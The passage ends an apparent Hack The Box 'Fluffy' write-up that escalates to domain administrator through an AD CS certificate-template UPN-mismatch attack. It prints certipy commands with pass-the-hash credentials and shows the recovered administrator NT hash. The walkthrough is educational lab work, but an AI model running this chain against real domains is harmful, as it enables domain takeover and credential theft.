[*] Successfully updated 'ca_svc'
                                                                                                                                             
$ certipy-ad account -u winrm_svc@fluffy.htb -hashes 33bd09dcd697600edf6b3a7af4875767 -user ca_svc read
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: All nameservers failed to answer the query FLUFFY.HTB. IN A: Server Do53:192.168.172.2@53 answered SERVFAIL
[!] Use -debug to print a stacktrace
[*] Reading attributes for 'ca_svc':
    cn                                  : certificate authority service
    distinguishedName                   : CN=certificate authority service,CN=Users,DC=fluffy,DC=htb
    name                                : certificate authority service
    objectSid                           : S-1-5-21-497550768-2797716248-2627064577-1103
    sAMAccountName                      : ca_svc
    servicePrincipalName                : ADCS/ca.fluffy.htb
    userPrincipalName                   : administrator
    userAccountControl                  : 66048
    whenCreated                         : 2025-04-17T16:07:50+00:00
    whenChanged                         : 2026-04-24T14:05:51+00:00
```

Now we need to request a template as _CA_SVC_ to grab a certificate on behalf of the administrator. If properly configured, AD CS would not trust the mismatched UPN and block this request, however we are given the green light here.

```
$ certipy-ad req -u ca_svc -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.23.217 -ca fluffy-DC01-CA -template User
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 17
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'


Next, we must clean up our UPN to match the original so that when we go to authenticate to the DC, it will allow us.


$ certipy-ad account -u winrm_svc@fluffy.htb -hashes 33bd09dcd697600edf6b3a7af4875767 -user ca_svc -upn ca_svc@fluffy.htb update
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: All nameservers failed to answer the query FLUFFY.HTB. IN A: Server Do53:192.168.172.2@53 answered SERVFAIL
[!] Use -debug to print a stacktrace
[*] Updating user 'ca_svc':
    userPrincipalName                   : ca_svc@fluffy.htb
[*] Successfully updated 'ca_svc'
```

Finally, we will use the PFX file granted from the earlier request to authenticate and grab a TGT for the administrator. The tool automatically gives us the NTLM hash for the specified user as well which we can use to grab a shell over WinRM.

```
$ certipy auth -dc-ip 10.10.11.69 -pfx administrator.pfx -u administrator -domain fluffy.htb
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
```



That's all, I had a lot of trouble getting Certipy to even work half of the time and needed to reset this machine a few times to get anything to validate. Not sure if this is a universal problem or if I got unlucky but I hope this was helpful to anyone following along or stuck and happy hacking!
